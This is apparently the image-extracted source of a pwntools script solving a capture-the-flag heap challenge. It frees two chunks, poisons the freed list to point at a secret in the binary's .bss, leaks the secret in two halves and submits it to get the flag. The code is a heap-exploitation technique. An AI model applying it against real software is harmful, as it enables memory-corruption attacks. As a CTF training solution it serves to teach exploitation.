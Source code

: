 ```python


def send_flag(secret):
    target.sendlineafter(b": ", b"send_flag")
    target.sendlineafter(b"Secret: ", str(secret).encode("ascii"))


def quit():
    target.sendlineafter(b": ", b"quit")


def main():
    launch()

    secret_p1 = elf.bss() + 0x17051
    secret_p2 = secret_p1 + 0x8

    malloc(0, 0)
    malloc(1, 0)
    free(1)
    free(0)
    scanf(0, p32(secret_p1))
    malloc(0, 0)
    malloc(0, 0)
    puts(0)

    target.recvuntil(b"Data: ")
    secret_p1 = target.recvline().strip().decode("ascii")
    target.success(f"Part 1: {secret_p1}")
    target.close()
    launch()

    malloc(0, 0)
    malloc(1, 0)
    free(1)
    free(0)
    scanf(0, p32(secret_p2))
    malloc(0, 0)
    malloc(0, 0)
    puts(0)

    target.recvuntil(b"Data: ")
    secret_p2 = target.recvline().strip().decode("ascii")
    target.success(f"Part 2: {secret_p2}")

    secret = secret_p1 + secret_p2
    send_flag(secret)
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```
